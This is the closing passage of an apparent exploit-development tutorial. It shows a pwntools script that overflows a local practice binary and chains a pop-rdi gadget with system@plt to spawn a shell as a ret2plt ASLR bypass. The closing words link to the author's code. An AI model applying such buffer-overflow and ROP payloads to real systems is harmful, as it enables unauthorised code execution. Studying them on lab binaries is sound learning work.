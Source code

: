 # pwntools stuff for now
p = process('./ret2plt')
context(os='linux', arch='adm64')

junk = b"A" * 120
sh = p64(0x40301d)
system = p64(0x401030)
pop_rdi = p64(0x4011eb)

payload = junk + pop_rdi + sh + system

p.sendline(payload)
p.interactive("> ")
{{< /highlight >}}

That's all for now. Run the exploit and you should get a shell that's a bit nicer.

![final_shell](final_shell.png)

# Last words

That's it for today. I hope this was somewhat understandable and helps you writing own exploits.
Of cause you can download all the code from my [github](https://github.com/tagnullde/Exploit-Development/tree/master/ASLR-Bypass/ret2plt).

In the next days I would like to write another article that take this a bit further. 
What happens if we don't have `system()` nor "sh" at our disposal? What can we do then?
If you want to know the answer, come back in a couple of days. ;)

x41